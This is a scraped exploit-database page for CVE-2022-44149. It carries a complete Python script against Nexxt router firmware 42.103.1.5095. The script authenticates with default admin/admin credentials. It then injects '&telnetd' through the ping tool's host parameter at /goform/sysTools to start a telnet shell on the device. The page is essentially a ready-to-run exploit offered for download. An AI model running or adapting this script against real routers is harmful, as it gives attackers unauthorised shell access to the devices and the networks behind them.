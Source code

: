 ```yaml
---
title: Nexxt Router Firmware 42.103.1.5095 Remote Code Execution Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38137&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-05
fetch_date: 2025-10-04T03:03:04.120126
---
```


# Nexxt Router Firmware 42.103.1.5095 Remote Code Execution Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Nexxt Router Firmware 42.103.1.5095 Remote Code Execution Exploit CVE-2022-44149

2023-01-04 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38137
# Exploit Title: Nexxt Router Firmware 42.103.1.5095 - Remote Code Execution (RCE) (Authenticated)
# Exploit Author: Yerodin Richards
# Vendor Homepage: https://www.nexxtsolutions.com/
# Version: 42.103.1.5095
# Tested on: ARN02304U8
# CVE : CVE-2022-44149

import requests
import base64

router_host = "http://192.168.1.1"
username = "admin"
password = "admin"

def main():
    send_payload("&telnetd")
    print("connect to router using: `telnet "+router_host.split("//")[1]+ "` using known credentials")
    pass

def gen_header(u, p):
    return base64.b64encode(f"{u}:{p}".encode("ascii")).decode("ascii")

def send_payload(payload):
    url = router_host+"/goform/sysTools"
    headers = {"Authorization": "Basic {}".format(gen_header(username, password))}
    params = {"tool":"0", "pingCount":"4", "host": payload, "sumbit": "OK"}
    requests.post(url, headers=headers, data=params)

if __name__ == '__main__':
    main()
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)